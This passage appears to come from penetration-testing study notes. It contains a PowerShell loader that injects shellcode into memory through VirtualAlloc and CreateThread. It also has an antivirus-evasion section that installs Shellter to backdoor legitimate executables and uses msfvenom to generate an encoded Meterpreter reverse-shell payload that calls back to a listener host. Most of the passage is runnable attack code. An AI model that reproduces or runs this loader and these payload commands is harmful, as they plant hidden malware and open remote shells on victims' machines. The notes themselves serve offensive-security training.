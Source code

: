 ```pwsh
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]] $sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

## Automate AV evasion payloads

**Shellter**, a dynamic shellcode injection tool,  backdoor a valid and non-malicious executable file with a malicious shellcode payload. Shellter attempts to use the existing PE **Import Address Table** (IAT) entries to locate functions that will be used for the memory allocation, transfer, and execution of our payload.

```bash
sudo dpkg --add-architecture i386 && sudo apt-get update && sudo apt-get install wine32

sudo apt install shellter
```

Generate custom (C) payload with msfvenom for shellter

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=80 -e x86/shikata_ga_nai -i 7 -f raw > met.bin
```

# Password Attacks

## Attacking Network Services Logins
